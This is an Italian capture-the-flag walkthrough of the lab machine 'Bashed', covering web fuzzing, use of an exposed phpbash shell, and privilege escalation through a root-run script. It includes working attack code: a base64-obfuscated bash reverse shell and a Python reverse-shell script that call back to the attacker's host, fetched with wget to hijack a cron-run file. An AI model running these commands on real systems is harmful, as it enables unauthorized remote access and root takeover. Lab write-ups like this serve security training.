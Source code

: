 ```yaml
---
title: "Bashed Walkthrough"
description: "Bashed è una macchina abbastanza easy che si concentra principalmente sul fuzzing e sull'individuazione di file importanti. L'accesso base al crontab è limitato."
author: dua2z3rr
date: 2025-08-25 1:00:00
categories: [Walkthrough]
tags: ["Area di Interesse: Common Applications", "Area di Interesse: Web Application", "Vulnerabilità: OS Command Injection", "Vulnerabilità: File System Configuration", "Vulnerabilità: Code Execution"]
image: /assets/img/bashed/bashed-resized.png"
---
```


## Enumerazione Esterna

### Nmap

Cominciamo con un nmap.

```shell
┌─[dua2z3rr@parrot]─[~]
└──╼ $sudo nmap 10.10.10.68 -vv -p-
<SNIP>
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63

<SNIP>

┌─[dua2z3rr@parrot]─[~]
└──╼ $sudo nmap 10.10.10.68 -vv -p 80 -sC -sV
<SNIP>
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

### HTTP

![Desktop View](/assets/img/bashed/bashed-home-page.png)

Esploriamo il sito. Notiamo subito che il sito è chiamato `Arrexel's Development Site`. Potremmo utilizzare Arrexel come user name più avanti.

![Desktop View](/assets/img/bashed/bashed-phpbash.png)

Grazie a questo abbiamo la certezza di cosa dobbiamo exploitare. Continuiamo a leggere per ultieriori indizi su **phpbash**

![Desktop View](/assets/img/bashed/bashed-passwd.png)

Abbiamo anche uno screenshot del file `/etc/passwd`. Da questo vediamo la presenza di selinux (Security Enhanced Linux), un mandatory access control per linux.

Infine, Abbiamo un link della pagina github del progetto precedente: <https://github.com/Arrexel/phpbash>. L'ultima commit si chiama **Patch XSS vuln**. Controlliamo le modifiche applicate.

![Desktop View](/assets/img/bashed/bashed-last-commit-text-comparison.png)

Esiste anche un issue dove viene reportato un modo per applicare una vulnerabilità XSS.

![Desktop View](/assets/img/bashed/bashed-xss.png)

Quindi, sappiamo che phpbash è una semi-interactive shell è che è stata installata sul target ip. Magari si trova in una directory specifica, proviamo a fare fuzzing per trovarla.

### FFUF

```shell
┌─[dua2z3rr@parrot]─[~/SecLists/Discovery/Web-Content]
└──╼ $ffuf -w DirBuster-2007_directory-list-2.3-big.txt:FUZZ -u http://bashed.htb/FUZZ -recursion -ic

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://bashed.htb/FUZZ
 :: Wordlist         : FUZZ: /home/dua2z3rr/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 43ms]
[INFO] Adding a new job to the queue: http://bashed.htb/images/FUZZ

                        [Status: 200, Size: 7743, Words: 2956, Lines: 162, Duration: 44ms]
uploads                 [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 44ms]
[INFO] Adding a new job to the queue: http://bashed.htb/uploads/FUZZ

php                     [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 41ms]
[INFO] Adding a new job to the queue: http://bashed.htb/php/FUZZ

css                     [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 41ms]
[INFO] Adding a new job to the queue: http://bashed.htb/css/FUZZ

dev                     [Status: 301, Size: 306, Words: 20, Lines: 10, Duration: 67ms]
[INFO] Adding a new job to the queue: http://bashed.htb/dev/FUZZ

js                      [Status: 301, Size: 305, Words: 20, Lines: 10, Duration: 49ms]
[INFO] Adding a new job to the queue: http://bashed.htb/js/FUZZ

fonts                   [Status: 301, Size: 308, Words: 20, Lines: 10, Duration: 40ms]
[INFO] Adding a new job to the queue: http://bashed.htb/fonts/FUZZ
```

Se entriamo in ogni cartella manualmente, troveremo nella directory `dev` la repository di github precedente.

Basta cliccare su phpbash.php per ottenere una shell come `www-data`. Andiamo nella home directory di `arrexel` e ottenere la user flag.

## Shell come www-data

### Enumerazione interna

Attraverso il comando `sudo -l` possiamo vedere che abbiamo il permesso di usare qualsiasi comando essendo lo user `scriptmanager`.

![Desktop View](/assets/img/bashed/bashed-sudo-l.png)

Per comodità, otteniamo una reverse shell.

```shell
echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE2LjkvOTAwMSAwPiYx | base64 -d | bash
```

Ora diventiamo `scriptmanager`.

```shell
www-data@bashed:/home/arrexel$ sudo -u scriptmanager bash -i
sudo -u scriptmanager bash -i
bash: cannot set terminal process group (809): Inappropriate ioctl for device
bash: no job control in this shell
scriptmanager@bashed:/home/arrexel$ 
<SNIP>
scriptmanager@bashed:/$ ls -al
ls -al
total 92
drwxr-xr-x  23 root          root           4096 Jun  2  2022 .
drwxr-xr-x  23 root          root           4096 Jun  2  2022 ..
-rw-------   1 root          root            174 Jun 14  2022 .bash_history
drwxr-xr-x   2 root          root           4096 Jun  2  2022 bin
drwxr-xr-x   3 root          root           4096 Jun  2  2022 boot
drwxr-xr-x  19 root          root           4140 Aug 24 23:07 dev
drwxr-xr-x  89 root          root           4096 Jun  2  2022 etc
drwxr-xr-x   4 root          root           4096 Dec  4  2017 home
lrwxrwxrwx   1 root          root             32 Dec  4  2017 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root           4096 Dec  4  2017 lib
drwxr-xr-x   2 root          root           4096 Jun  2  2022 lib64
drwx------   2 root          root          16384 Dec  4  2017 lost+found
drwxr-xr-x   4 root          root           4096 Dec  4  2017 media
drwxr-xr-x   2 root          root           4096 Jun  2  2022 mnt
drwxr-xr-x   2 root          root           4096 Dec  4  2017 opt
dr-xr-xr-x 181 root          root              0 Aug 24 23:07 proc
drwx------   3 root          root           4096 Aug 24 23:08 root
drwxr-xr-x  18 root          root            500 Aug 24 23:07 run
drwxr-xr-x   2 root          root           4096 Dec  4  2017 sbin
drwxrwxr--   2 scriptmanager scriptmanager  4096 Jun  2  2022 scripts
drwxr-xr-x   2 root          root           4096 Feb 15  2017 srv
dr-xr-xr-x  13 root          root              0 Aug 25 03:08 sys
drwxrwxrwt  10 root          root           4096 Aug 25 04:05 tmp
drwxr-xr-x  10 root          root           4096 Dec  4  2017 usr
drwxr-xr-x  12 root          root           4096 Jun  2  2022 var
lrwxrwxrwx   1 root          root             29 Dec  4  2017 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
```

Vediamo una cartella accessibile solo da `scriptmanager`. All'interno esiste il file `test.py` che scrive un file. vediamo che il file creato è di proprietà di root. Possiamo dedurre che il programma venga eseguito da root. Modifichiamo il programma per ottenere una reverse shell come root.

Sulla nostra macchina:

```shell
┌─[dua2z3rr@parrot]─[~/Desktop]
└──╼ $cat test.py
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.16.9",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

┌─[dua2z3rr@parrot]─[~/Desktop]
└──╼ $ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

> È importante togliere i punti e virgola e andare a capo! sono rimasto bloccato per molto tempo!
{: .prompt-tip }

Macchina target:

```shell
scriptmanager@bashed:/scripts$ rm test.py; wget http://10.10.16.9:8000/test.py
```

Nostra macchina:

```shell
┌─[✗]─[dua2z3rr@parrot]─[~/SecLists/Discovery/DNS]
└──╼ $nc -lnvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.10.68 41560
/bin/sh: 0: can't access tty; job control turned off
# cd /root
```

Terminiamo la box prendendo la root flag.
